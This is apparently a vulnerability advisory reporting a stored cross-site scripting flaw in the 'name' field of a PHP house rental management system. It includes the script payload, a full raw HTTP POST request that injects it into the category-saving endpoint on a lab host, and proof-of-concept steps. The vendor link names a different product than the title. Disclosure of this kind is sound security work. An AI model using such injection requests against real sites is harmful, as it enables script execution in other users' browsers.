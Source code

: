 # Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability

Exploit Title: Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Best house rental management system project in php does not filter the content correctly at the "name" parameter, resulting in the generation of stored XSS.

#### Payload used:

> <script>alert("a")</script>

```plaintext
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.56.128:8080
Content-Type: multipart/form-data; boundary=---------------------------217335298739291867533794032394
Origin: http://192.168.56.128:8080
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.128:8080/index.php?page=categories
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Content-Length: 308

-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="id"


-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="name"

<script>alert("a")</script>
-----------------------------217335298739291867533794032394--
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

​![image](assets/image-20240919110945-fk1s1p5.png)​

‍

2.After the successful addition, redirecting to the management page will trigger the XSS pop-up window.

​![image](assets/image-20240919111250-o6ct0t1.png)​

Similarly, by sending a post request, you will see the script code stored in the management page.

​![image](assets/image-20240919111332-tui35nz.png)​

​![image](assets/image-20240919111512-n00e91k.png)​

‍

‍

‍
